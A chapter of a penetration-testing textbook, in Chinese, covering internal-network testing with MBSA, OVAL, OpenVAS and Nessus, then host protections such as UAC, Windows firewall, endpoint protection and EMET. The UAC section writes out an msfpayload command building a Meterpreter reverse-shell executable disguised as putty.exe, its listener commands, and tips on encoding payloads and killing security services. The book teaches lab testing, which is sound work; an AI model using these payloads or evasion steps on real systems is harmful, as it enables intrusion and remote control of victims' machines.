# 第十章。测试平面和内部网络

在本章中，您将学习在网络是平面的情况下评估网络的技术，也就是说，我们和目标之间没有任何障碍。这使得我们的任务变得更容易；此外，网络内部通常是最受信任的位置，因此在涉及到二层和物理**媒体访问控制（MAC）**地址的分配时，它提供了最少的阻力。在本章中，我们将讨论以下主题：

+   漏洞扫描器的作用

+   处理主机保护

本章将为我们提供有关在进行内部或白盒测试时，我们不会遇到在进行外部或黑盒测试时所遇到的挑战的详细信息。这并不意味着当网络是平面的并且我们在其中时，我们没有挑战；我们可能会遇到许多挑战。此外，我们必须做好防护的准备，例如基于主机的入侵防护、防病毒软件、主机防火墙和管理员可能部署的**增强缓解体验工具**（**EMET**）。

当我们从内部测试网络时，目标是模拟多种不同的威胁向量。此外，我们希望以未经身份验证的用户、具有普通权限的用户和具有提升权限的用户的身份访问网络；这与我们在网络内部使用的工具很相配。

# 漏洞扫描器的作用

那么，漏洞扫描器在其中扮演了什么角色呢？嗯，这就是它们擅长的地方：当您提供扫描器的凭据时，扫描器可以登录到计算机并检查客户端软件。这是我们在外部测试环境中大部分时间无法做到的事情。

在我们介绍 Kali Linux 发行版中可用的不同扫描工具之前，我们将看看两个可以用于内部网络漏洞评估的免费工具。

## Microsoft 基线安全分析器

我们要看的第一个工具来自微软，它是**Microsoft 基线安全分析器**（**MBSA**）。您可以从以下链接下载该工具：[`www.microsoft.com/en-us/download/details.aspx?id=7558`](http://www.microsoft.com/en-us/download/details.aspx?id=7558)

MBSA 工具的一个好处是它来自微软，并且对缺失的内容有很好的了解。它还可以很好地识别缺失的补丁并且可以识别安全配置错误。

当您下载并安装了该工具后，打开它并启动程序。以下是开屏配置的示例截图：



显示工具运行状态的屏幕（裁剪的文本不重要）

我们想要用工具做的第一件事是扫描一台计算机。要做到这一点，点击**扫描计算机**来开始配置过程并打开扫描数据输入屏幕。正如您所看到的，我们有相当多的扫描方式和一些可选设置可以选择。以下是一个示例截图：



在这个例子中，您可以扫描任何您喜欢的机器。我们将扫描我们正在撰写本书的本地主机。当您选择了目标后，点击**开始扫描**来开始扫描。随后，您将看到该工具连接到微软并下载最新的补丁信息。您也可以配置它从本地服务器获取信息，以防您的网络上没有可用的互联网连接。

以下是完成的扫描示例截图：



正如前面的截图所示，我们对我们扫描的这台机器有一些担忧。该工具的一个很好的特性是，我们可以点击**如何纠正此链接**，并获取有关发现的额外信息。额外信息的示例可以在以下截图中找到：


MBSA 工具很好地展示了漏洞扫描器的优点。这是由网络所有者使用的，因为它帮助他们进行漏洞管理程序。通过内部测试，我们还可以使用漏洞扫描器向客户展示他们的补丁管理策略是否有效。我们接下来要看的工具来自**Mitre**团队，它是**开放漏洞评估语言**（**OVAL**）工具。

## 开放漏洞评估语言

OVAL 工具与 MBSA 工具不同，因为它不仅查看微软软件，还查看其他软件。重要的一点是，这个工具不是企业类型的工具，但是对于我们的内部测试目的，我们可以使用它来查看安装在机器上的软件，并查看是否存在任何漏洞。以下是来自其网站的 OVAL 描述截图：


正如前面的截图所示，这个工具是国际化的，并提供了一种评估计算机系统状态的方法。我们将看一下这个工具。为此，我们将看一下 OVAL 解释器，它提供了一种演示工具及其定义的方法；您可以从[`sourceforge.net/projects/ovaldi/`](http://sourceforge.net/projects/ovaldi/)下载它。工具下载完成后，运行工具并安装它。为了本书的目的，我们将其安装在运行 Windows 7 的虚拟机上。请随意在您选择的机器上安装它。下载了工具之后，当您运行可执行文件时，它是一个 SFX 存档，执行后所有文件将解压缩到硬盘上的一个目录中。默认情况下，它将选择`Program Files`目录；但是，建议您将位置更改为目录名称中没有空格的位置。

解压缩文件后，您可以阅读`README.txt`文件，您会发现接下来要做的事情是下载最新的定义文件。以下截图显示了有关这些定义文件的信息，包括它们的类型：


查看了定义的信息后，我们会想要使用漏洞定义。您可以从[`oval.mitre.org/rep-data/index.html`](http://oval.mitre.org/rep-data/index.html)下载它们的最新版本。在撰写本书时，OVAL 的最新版本是 5.10，这是我们将要使用的版本。您的版本可能不同，因此一些截图可能与本书中的截图不同。

您会注意到定义是按平台划分的；这样我们在运行解释器时只需专注于我们正在使用的特定平台。由于我们在本书中使用的是 Windows 7，我们只会下载它。您还会看到有一个哈希值来帮助维护定义的完整性。

### 提示

下载了定义之后，您会想把它放在 OVAL 目录中，并将其重命名为`definitions.xml`。

重命名文件后，您就可以运行解释器工具了；在命令提示符窗口中输入以下内容：

```
ovaldi –m –a xml –x test.html

```

如果出现应用程序初始化错误，则必须下载适用于您的操作系统版本的正确 Visual C++平台，可能还需要.NET 4.0 包。这是使用 Windows 的一个缺点，特别是在使用开源工具时。当然，您也可能在 UNIX 和 Linux 中遇到相同的问题，例如库依赖性和其他挑战。有关更多信息，请参阅`README`文件。该命令使用哈希作为验证，以确保定义文件没有损坏。

运行命令时的初始结果示例如下截图所示：



创建特征文件后，您将看到工具报告，指出它正在运行 OVAL 定义分析，并显示收集的日期。这个过程需要一些时间来完成，取决于运行的机器上的软件数量和其他因素。当工具到达这个阶段时的示例如下截图所示：


分析完成后，输出将被写入命令行上指定的文件。在我们的示例中，我们将输出写入`test.html`文件。以下截图显示了系统信息的示例：


上一张屏幕截图不仅显示了有关机器的信息，还显示了 OVAL 工具本身。它为我们提供了模式版本和产品版本。在此区域下方是工具发现的报告。这是漏洞的列表，包括对外部信息的引用，以了解更多关于发现的信息。以下截图显示了一个示例：


显示了列出的漏洞，包括对外部信息的引用（裁剪的文本不重要）

如前面的截图所示，这里引用了 OVAL ID 和**通用漏洞**和**暴露**（**CVE**）编号。要获取更多信息，可以单击提供的链接。以下截图显示了 OVAL ID 网站上的信息示例：


OVAL 工具是您可能想要更熟悉的工具。在进行内部测试时，它可以帮助您发现漏洞，而漏洞扫描器可能无法找到。我们现在将看一下通常从远程位置使用的漏洞扫描器。我们在 MBSA 工具中也有这个功能，但它需要特权访问来执行扫描。此外，OVAL 工具也需要特权访问。

## 无凭证扫描

在我们的内部测试中使用漏洞扫描器时，第一次扫描将不使用凭证，因此我们将查看 Kali Linux 中的工具来实现这一点。在 Kali Linux 中，漏洞扫描器位于**应用程序** | **Kali Linux** | **漏洞分析**位置。在这个位置中，有许多工具可供我们用于漏洞扫描。以下截图显示了一个示例：


我们将使用的扫描器是 OpenVAS 扫描器。当您第一次开始使用 OpenVAS 时，需要执行一些步骤。第一步是导航到**应用程序** | **Kali Linux** | **漏洞分析** | **OpenVAS** | **初始设置**。这将下载所需的所有插件，并需要一些时间来完成。工具加载完成后，将要求输入密码；默认用户是`admin`，您可以输入自己选择的密码。

您需要做的下一件事是打开浏览器并连接到该工具的界面。在浏览器中输入`https://127.0.0.1:9392`以打开 OpenVAS。下面的截图显示了一个示例：



在浏览器中输入 https://127.0.0.1:9392 后显示的界面（裁剪的文本不重要）

使用用户名`admin`和您在初始设置期间创建的密码登录界面。这将带您进入扫描配置页面，在 Kali 中，包括一个`快速入门`区域，如下截图所示：



在进行扫描之前，我们还有一些额外的步骤要执行。第一步是更新**网络漏洞测试**（**NVT**）源。导航到**管理** | **NVT 源** | **立即同步源**；一旦同步完成，您需要更新**安全内容自动化协议**（**SCAP**）源。我们可以通过导航到**管理** | **SCAP 源** | **与 SCAP 同步**，然后通过导航到**管理** | **NVT 源** | **立即同步 CERT 源**来完成这一步。

对于我们的第一次扫描，我们将扫描 Windows XP 机器，因为它应该为我们提供许多发现。正如您在**快速入门**部分的解释中所看到的，快捷方式可以帮我们省去创建目标和扫描的新任务的麻烦。对于阅读本书的一些人来说，您可能已经在**BackTrack**发行版上运行过 OpenVAS，并且还记得在那里进行扫描可能有多麻烦。

### 注意

如果您在 OpenVAS 上遇到问题，有时在 BackTrack 中执行该过程会更容易。由于某种原因，当您更新 Kali Linux 发行版时，有时会导致 OpenVAS 出现问题。有一些非常好的互联网教程可以使用该工具。在 BackTrack 上使用它的一个很受欢迎的教程可以在[`www.ehacking.net/2011/06/backtrack-5-openvas-tutorial.html`](http://www.ehacking.net/2011/06/backtrack-5-openvas-tutorial.html)找到。尽管它有点过时，但它运行得非常好。

一旦我们扫描了 XP 机器，我们将得到一份发现报告。XP 机器的报告示例如下截图所示：



## Nessus

我们将使用的下一个工具是 Tenable 的漏洞扫描工具**Nessus**。您可以从[`www.tenable.com/products/nessus/select-your-operating-system`](http://www.tenable.com/products/nessus/select-your-operating-system)下载该工具。

一旦您下载了该工具，您需要注册一个家庭注册源，然后安装软件。在本书中，我们将使用该工具的 Windows 版本。这是因为 Web 界面使用 Flash，这有时会在 Kali Linux 发行版中引起问题，因此通常更容易使用 Windows 工具。欢迎您在 Kali 中使用该工具；只需在互联网上搜索教程，它将指导您完成整个过程。

在撰写本书时，Nessus 的最新版本是 5.2.5，此版本包括许多功能和重新设计的 Nessus 界面。此外，他们还增加了创建修复报告的功能。当您进行测试时，这总是一个很好的功能，因为然后您可以帮助客户了解修复您发现的问题需要付出什么样的努力。在此版本中，您需要在执行扫描之前首先选择一个策略。策略选项的示例如下截图所示：



在我们的示例中，我们将点击**基本网络扫描**并打开策略的配置表单。我们将扫描我们的 Windows 7 机器，但首先，我们需要为扫描输入一个名称。我们将输入名称为`FirstScan`。您还会注意到您可以选择一个范围。我们将保留私有的默认设置，并点击**下一步**进入下一个屏幕。我们可以选择**内部**或**外部**作为扫描类型。由于我们在一个平面网络上，我们将使用**内部**的设置，并点击**下一步**。这将带我们到一个屏幕，我们可以添加凭据。由于这是一个没有凭据的扫描，我们现在不会这样做。所以，点击**保存**保存扫描的详细信息。我们第一次扫描策略的示例如下截图所示：


现在我们准备开始扫描，所以导航到**扫描** | **新扫描**开始扫描的配置过程。输入扫描的名称，然后输入目标的 IP 地址。扫描配置的示例如下截图所示：


一旦您验证了您的信息，点击**启动**按钮启动扫描。您会注意到扫描开始了，并且您应该看到一个**运行中**的消息来指示扫描处于运行状态。这将需要一些时间，但当扫描完成时，您将在状态区域看到它标记为**已完成**。扫描结果的示例如下截图所示：


嗯，这并不是很令人兴奋；我们只有蓝色和三个漏洞。所以，我们需要扫描一些能够提供更多弱点的东西。我们现在就来做这个；下一个扫描将是 Windows XP 机器的扫描。这次扫描的结果示例如下截图所示：



嗯，这好一点，但还不够好！

## 使用凭据进行扫描

再次强调，当提供凭据时，漏洞扫描器的工作效果最佳。到目前为止，我们还没有提供任何凭据。我们现在将这样做。如果您返回到扫描策略的配置，导航到**策略** | **新策略**，点击**基本网络扫描**，然后点击**下一步**。当您到达凭据页面的配置时，您需要输入管理员帐户的用户名和密码。还有一个有凭据的扫描选项，但现在我们将进行与刚才相同的扫描，看看会发生什么。一旦我们输入了所需的详细信息，点击**启动**启动扫描。

已完成扫描的示例如下截图所示：



我们有一些更多的信息发现，但仍然只有相同的两个中等漏洞，那么现在我们该怎么办呢？这次我们将尝试另一个扫描，选择引用使用凭据的策略。返回扫描配置。当选项出现时，选择有凭据的扫描，让我们看看这是否会带来更多的成功。不幸的是，这也没有带来太多的成功。这个过程是从远程位置进行扫描并记录发现，然后如果范围允许，您可以使用 MBSA 或 OVAL 在本地进行扫描。

在我们继续之前，这里有一个重要的说明：我们一直在尝试对这台机器进行扫描，而那时，这台机器的 Windows 防火墙是开启的。因此，这是内部测试的挑战；如果机器开启了防火墙，可能会使事情变得更加困难。让我们再看一下关闭防火墙的 Windows 7 机器的一次扫描。如果机器在连接到网络时设置为**公共**，那么文件共享将被关闭，当我们使用工具对其进行扫描时，什么都不会起作用。因此，我们需要确保即使防火墙已启用，我们仍然可以访问文件共享端口。

以下是关闭防火墙的 Windows 7 扫描的示例截图：



在这种情况下，我们现在有相当多的漏洞，因为我们将凭据添加到了扫描策略中。这就是漏洞扫描工具的威力所在；当它们有了凭据，它们就会更加有效。

接下来，我们将对 Unix 机器进行有和无凭据的扫描，以便比较不同的操作系统。我们将使用 FreeBSD Unix，实际上，我们将使用一个旧版本来看看我们能发现什么。我们将使用的版本是 6.4，在撰写本书时，版本是 10.0，因此有相当大的差异。以下是没有凭据的 FreeBSD 扫描的示例截图：


正如我们从之前的截图中看到的，有三个低级漏洞。这是一台非常古老的 Unix 机器，因此很难相信只发现了三个漏洞。然而，让我们添加一些凭据，看看我们是否能得到更好的结果。对于 Unix 和 Linux，凭据是通过**安全外壳**（**SSH**）提供的。以下是使用 SSH 凭据进行相同扫描的示例截图：


现在我们有 28 个漏洞，但更重要的是，我们发现了一个关键的问题，即操作系统不受支持。我们可能会认为操作系统不受支持是因为它是一个非常旧的版本，但是当你仔细想想，漏洞并没有那么多。

您可能还会注意到，当您尝试扫描 FreeBSD Unix 机器时，扫描似乎需要很长时间。这是因为这台机器知道潜在的扫描是什么样子的，因此会限制它发送的内容。以下是一个示例截图：


正如之前的截图所示，扫描工具正在请求大量数据包，而 FreeBSD 机器将其限制为每秒 200 个数据包，无论工具尝试什么。再加上大多数漏洞扫描工具主要关注 Windows，这就是为什么我们在扫描中没有看到很多结果的原因。

我们将尝试进行另一个扫描作为示例，看看当扫描遇到 Linux 目标时，扫描器会检测到什么。我们要做的第一次扫描是在之前创建的 Kioptrix 机器上使用 Nessus 进行扫描。以下是 Kioptrix 机器的 Nessus 网络扫描的示例截图：


显示了 Kioptrix 机器的 Nessus 网络扫描示例（裁剪的文本不重要）

这更像是！我们至少可以检测到非常容易受攻击的 Linux 机器。这就是为什么我们在我们的范围内进行测试；我们想知道我们能够检测到什么，以及不能检测到什么。因此，根据本节，FreeBSD Unix 机器没有显示出太多信息，但 Windows 和 Linux 机器显示了。在测试时了解这一点是很重要的。如果你遇到了 Unix 机器，你会知道你可以将它保存到测试的最后，一旦你完成了其他机器的所有细节。

# 处理主机保护

我们知道很可能会遇到主机保护，因此在我们的渗透测试实验室中，我们想测试不同的主机保护，看看我们能做什么，不能做什么。这是一个取决于管理员和我们所面对的团队的领域。一个硬化的机器上几乎没有运行的服务将对我们的测试构成挑战。

## 用户账户控制

我们将遇到的最常见的事情之一是**用户账户控制**（**UAC**）；这是因为它默认情况下是开启的，并且在安装 Windows 时很少更改。关于 UAC 和绕过它的方法，一个好的方面是用户习惯于点击。因此，如果弹出窗口说需要权限，用户很可能会点击。我们可以利用这一点，但总有可能用户不会点击。因此，在这些情况下，我们依赖某种形式的 UAC 绕过来帮助我们绕过 UAC 保护。

在 metasploit 框架中，有一个 UAC 绕过，它是位于 Meterpreter shell 中的一个功能。有关 UAC 和绕过它的方法，请参考[`journeyintoir.blogspot.com/2013/03/uac-impact-on-malware.html`](http://journeyintoir.blogspot.com/2013/03/uac-impact-on-malware.html)。

在很大程度上，要利用 Windows 7 机器，我们需要获得某种客户端攻击。我们将在本书的后面讨论这些攻击。现在，我们将使用创建可执行文件的简单方法，然后将其传输到受害者机器。执行时，这将为我们提供对 Windows 7 机器的 shell。一旦我们有了 shell，那么只是通过不同的进程来尝试绕过 UAC 并在机器上实现系统级别特权的问题。

我们要做的第一件事是验证机器上是否启用了 UAC 设置。您可以通过导航到**控制面板** | **操作中心** | **更改用户账户控制设置**来找到设置。这将打开 UAC 的设置。以下是示例：


我们将创建一个可执行文件，并将其传输到 Windows 7 虚拟机，以便从被攻击的机器中获得我们的第一个 shell。我们将使用 metasploit 的可执行文件功能。

我们首先需要创建一个可执行文件，用作从 Windows 7 机器返回到我们的 Kali Linux 机器的连接。我们在 metasploit 工具中具有这种能力。在您的 Kali Linux 机器上，打开一个终端窗口，并输入`msfconsole`来打开 metasploit 工具。一旦 metasploit 工具启动（这将需要一分钟），输入以下命令：

```
msfpayload windows/meterpreter/reverse_tcp LHOST = <IP ADDRESS OF Kali> LPORT=123 X > putty.exe

```

这将创建一个名为`putty`的可执行文件，其中包含用于从网络到 Kali 机器的连接的有效载荷和连接信息。

以下是输入和完成命令的示例：


屏幕显示输入和完成命令的示例（裁剪的文本不重要）

我们现在已经创建了文件，并需要将其从我们的机器传输到受害者。我们可以使用某种形式的社会工程学；但是，对于我们的目的，在实验环境中，我们将文件拖放到受害者机器中。

接下来我们需要做的是设置 metasploit 工具；我们通过输入以下命令来实现这一点：

+   `use exploit/multi/handler`

+   `set PAYLOAD windows/meterpreter/reverse_tcp`

+   `set LHOST <Kali IP>`

+   `set LPORT 123`

+   `exploit`

这将设置监听器，并等待受害者连接。以下是命令的示例：


现在我们已经准备好连接了。为此，我们需要用户运行我们创建的可执行文件。我们可以使用诸如`msfencode`之类的编码器来尝试规避已经存在的基于主机的保护措施。然而，在测试环境中，我们只能验证规避是否适用于我们的配置，并不能保证我们在目标环境中会得到相同的配置。当程序运行时，我们应该在我们的 Kali 窗口中看到一个连接和会话打开。以下截图显示了一个示例：

用户账户控制

现在我们有了一个 shell。接下来就是棘手的部分；我们必须尝试提升权限，但首先我们需要看看我们目前的权限级别是什么。在受害机器上的 shell 中输入`getuid`来显示您当前的权限级别。以下截图显示了一个示例：

用户账户控制

正如前面的截图所示，我们不是系统，所以我们需要提升权限并绕过 UAC 保护。首先要尝试的是看看 Meterpreter shell 是否能为我们执行特权升级。我们可以通过输入`getsystem`来让它尝试将权限提升到系统级别。以下截图显示了一个示例：

用户账户控制

显示输入 getsystem 并让其尝试将权限提升到系统（裁剪的文本不重要）

正如前面的截图所示，我们没有成功，所以我们需要尝试另一种方法。当我们讨论客户端测试时，我们将更详细地讨论这个问题。所以，现在我们将在这里停下来，稍后再来看这个问题。一如既往，这取决于我们已经入侵的机器的配置。我们不能保证我们能够绕过 UAC。

## 主机防火墙

在我们的测试中，防御中经常被忽视的一点是主机防火墙。在本章的前面，我们解释了在防火墙开启时，我们在进行漏洞扫描时会受到一定的限制。我们将继续进行测试，以便了解主机防火墙可能带来的挑战，然后看看在防火墙开启时我们可以使用哪些方法来从目标获取数据。

正如您可能记得的，根据我们的扫描方法论，我们首先寻找活动系统，然后是端口，接着是服务。从那里，我们进行枚举，识别漏洞，然后根据我们的工作范围进行利用。现在，我们需要做的是首先关闭防火墙，然后在各个定义的区域的样本上打开防火墙。我们将使用 Kali Linux 虚拟机和 Windows 7 机器作为我们测试的目标。

在您的 Windows 7 机器上，我们需要打开防火墙配置。有许多方法可以做到这一点。为了我们的目的，在这里我们将右键单击网络托盘图标，然后导航到**打开网络和共享中心** | **Windows 防火墙**以打开防火墙配置选项。以下截图显示了一个示例：


正如前面的截图所示，我们的防火墙是开启的，但只在**家庭或工作（私人）网络**设置上开启。这可能不是我们在实际环境中会遇到的情况；**公共网络**设置更有可能是开启状态，但对于我们的测试来说，这已经足够了。所以，问题是，对于最新版本的 Windows 来说，不同的区域对于防火墙设置意味着什么，与例如 Windows Server 2003 相比并不那么重要？

最新版本的 Windows 知道，如果机器的角色是客户端，那么它不应该接收任何连接。那么，我们如何查看连接设置呢？在 Windows 7 机器上以管理员命令提示符打开，并在命令行上输入以下命令：

```
netsh firewall show portopening

```

命令的示例如下截图所示：


正如之前的截图所示，机器上没有任何开放的东西。同样，这是因为它是一个客户端，默认情况下，Windows 不允许任何东西与客户端通信。这可以通过查看 Windows 机器上的推荐设置来发现。这的一个示例如下截图所示：


现在我们对 Windows 防火墙规则有了更好的理解，是时候进行我们的方法论了。使用你的 Kali Linux 机器，扫描 Windows 7 机器。你应该执行方法论的步骤，然后查看有无防火墙的结果。对没有防火墙的机器进行 Nmap 的枚举扫描的示例如下截图所示：


现在我们有了一个显示关于我们目标的大量信息的结果，我们将打开防火墙，看看 Nmap 工具或者更确切地说，Nmap 脚本引擎是否能检测到来自受防火墙保护目标的任何东西。你可以使用命令行来启用防火墙。在命令提示符窗口中，输入`netsh firewall set opmode enable`来启用防火墙。针对受防火墙保护的机器进行扫描的结果示例如下截图所示：



正如之前的截图所示，防火墙可能会给我们的测试带来挑战。事实上，对于 Windows 7，默认情况下，真的没有任何入站允许的东西，这显示了安全哲学的变化。好消息是，某些东西将需要访问，因此管理员会打开某些东西或允许某些程序访问。要查看命令行中允许的程序，输入以下命令：

```
netsh firewall show allowedprogram

```

我们已经看过了 Windows 7 防火墙，这是客户端的一个表示，但服务器呢？我们将以 Windows 2003 服务器进行比较。Windows Server 2003 中的命令是相同的。如果服务器设置为独立服务器，那么你将看到与我们之前发现的类似的结果。然而，很少见到没有某种形式服务的服务器，最常见的是文件共享服务，许多服务器允许共享信息。启用文件共享的 Windows Server 2003 的示例如下截图所示：



现在我们已经看过了如果一个站点使用 Windows 的内置防火墙所采取的保护措施，正如我们发现的那样，这可能会在测试中提出挑战。

## 端点保护

我们要看的下一个保护类型是端点保护。我们之前看过一个例子，所以这里我们只会简要介绍一下这个主题。要记住的重要事情是所有这些保护通常都有一些必须允许通过的东西，在测试中，我们的任务是尝试发现这一点并揭示弱点。我们看了 Symantec 工具，并发现如果我们使用一个带有签名的标准有效负载，那么很可能会被检测到。如果我们在受保护的机器上获得了 shell，那么只需要识别服务然后终止它。只要我们选择 Meterpreter 作为有效负载，这一切都可以使用 metasploit 工具完成。

## 增强的缓解体验工具

在撰写本书时，微软提供的增强缓解体验工具（EMET）工具可能是您在机器上遇到的最棘手的工具之一。这种保护的部署仍处于起步阶段，但如果您在测试中遇到它，可能会非常具有挑战性。这也是微软开始支持“漏洞赏金”概念的原因，他们将支付在其最新操作系统中发现的软件漏洞。

在撰写本书时，EMET 的当前版本是 4.0。如果您遇到受 EMET 保护的机器，您将不得不想出自定义有效载荷以及其他方法来尝试绕过它，但祝您好运！随着 EMET 的迭代不断成熟，要绕过它将变得越来越困难。目标是在获得访问权限后停止 EMET 进程，然后进行攻击；否则，使用自定义有效载荷，并希望您可以绕过 EMET 保护。

以下是我笔记本电脑上 EMET 配置的一个示例：


正如前面的截图所示，在这个配置中，已经有三个应用程序被添加到 EMET 工具中。这些应用程序将在一个 shimmed 环境中运行，以防止它们被 compromise。EMET 工具还有许多已经设置好的应用程序进行监控。

以下是一些示例，显示了其中一些：


您还可以添加需要受 EMET 工具保护的应用程序。要查看用户添加了哪些应用程序，您可以在命令提示符窗口中输入以下内容：

```
C:\Program Files (x86)\EMET\EMET_conf --list

```

这个命令将显示已添加并当前受到 EMET 工具保护的应用程序。以下是一个示例：


正如前面的截图所示，这台机器正在使用 EMET 工具保护 Adobe Acrobat、Internet Explorer 和 Skype。如果您在测试中遇到 EMET，您的成功将取决于管理员如何配置它。

# 总结

在本章中，我们讨论了测试平面和内部网络的过程。我们发现这意味着我们不必穿过过滤器或层来攻击目标。虽然这是一件好事，但我们也讨论了这些机器将有一些保护措施。我们还回顾了漏洞扫描器在内部测试中的作用。

在介绍了不同的基于主机的保护措施后，我们更详细地研究了它们，并在某些情况下尝试了许多不同的技术来绕过我们可能遇到的主机上的不同保护。具体来说，我们查看了主机防火墙和 UAC 设置以及它们对测试结果的影响。

当我们查看了主机防火墙和 UAC 后，我们继续简要地查看了可能挑战我们测试的其他端点保护。

最后，我们通过查看 EMET 工具可能对我们的测试提出的挑战来结束了本章。

本章到此结束。您现在已经审查了在测试平面和内部网络时可能面临的一些挑战。接下来，我们将看看在评估服务器和服务的弱点时的测试方法。
